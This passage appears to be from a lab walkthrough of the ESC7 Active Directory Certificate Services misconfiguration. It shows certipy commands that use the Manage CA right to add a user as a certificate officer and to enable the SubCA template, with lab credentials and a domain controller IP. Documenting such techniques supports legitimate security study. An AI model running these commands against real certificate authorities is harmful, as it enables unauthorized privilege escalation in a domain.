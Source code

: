 ## Vulnerable Certificate Authority Access Control - ESC7

![ESC7](/screenshots/ESC7.png?raw=true)

### Template Abuse

If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

`certipy ca -ca 'Certipied-CA' -add-officer m.roland -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -dc-ip 192.168.91.181`

![](/screenshots/20230725010032.png?raw=true)

The **`SubCA`** template can be **enabled on the CA** with the `-enable-template` parameter. By default, the `SubCA` template is enabled.

`certipy ca -ca 'Certipied-CA' -enable-template SubCA -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -dc-ip 192.168.91.181`

![](/screenshots/20230725010101.png?raw=true)
